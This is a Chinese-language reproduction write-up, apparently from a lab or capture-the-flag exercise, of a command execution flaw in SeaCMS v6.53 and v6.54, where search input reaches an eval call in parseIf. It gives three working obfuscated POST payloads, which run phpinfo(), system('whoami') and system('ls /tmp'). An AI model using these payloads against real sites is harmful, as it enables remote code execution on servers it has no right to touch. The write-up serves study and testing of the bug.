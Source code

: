 # seacms-v6.53命令执行漏洞

## 一、漏洞描述

echoSearchPage 函数中的 content 变量传给了 parself 函数，跟踪代码，找到 ./include/main.class.php，可以看到 parseIf 函数会将 content 内容 eval  执行，造成命令执行。

![](./_v_images/20200527182210256_9173.png)


## 二、影响版本

 seacms v6.53、seacmsv6.54 版本

## 三、复现过程

### 1.抓取搜索框数据包将原本内容换为网上 Poc 的内容

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();
```

![](./_v_images/20200527184837945_27168.png)


![](./_v_images/20200527185111991_27068.png)


### 2.将数据包放过 查看返回结果 可见写入 9[] 的代码被执行

![](./_v_images/20200527185229499_30175.png)


### 3.进一步利用，可以执行系统命令

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami");
```

![](./_v_images/20200527185518860_26945.png)



### 4.获取 Flag

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls /tmp");
```

![](./_v_images/20200527190041412_23974.png)

